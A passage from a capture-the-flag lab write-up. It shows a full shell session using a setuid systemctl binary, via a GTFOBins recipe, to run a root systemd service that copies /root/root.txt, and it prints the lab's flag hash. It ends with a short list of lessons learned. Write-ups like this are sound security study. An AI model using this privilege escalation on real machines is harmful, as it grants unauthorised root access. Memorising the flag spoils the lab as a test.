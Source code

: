
---
## Systemctl
*linpeas.sh* also showed **systemctl** to possibly be vulnerable. Check out *GTFOBins* first.

![GTFOBins systemctl](Images/08-gtfobins-systemctl.png)

Ran it as is with the *id* command and all good. Try and run to read the *root.txt* file

```
www-data@vulnuniversity:/tmp$ cd /bin
www-data@vulnuniversity:/bin$ ./systemctl link $TF
www-data@vulnuniversity:/bin$ TF=$(mktemp).service
www-data@vulnuniversity:/bin$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/bin$ ./systemctl link $TF
Created symlink from /etc/systemd/system/tmp.qFGpwCXAky.service to /tmp/tmp.qFGpwCXAky.service.
www-data@vulnuniversity:/bin$ ./systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.qFGpwCXAky.service to /tmp/tmp.qFGpwCXAky.service.
www-data@vulnuniversity:/bin$ cat /tmp/output
a58ff8579f0a9270368d33a9966c7fd5
```


---
## What did I learn?

1. Better understanding of what GFTOBins is trying to do.
2. May need to explore more web directory fuzzing tools
3. More play with BurpSuite is required. I followed someone elses instructions exactly and got no result.
4. Enumerate directories under directories on web pages ie http://$IP/internal/uploads/
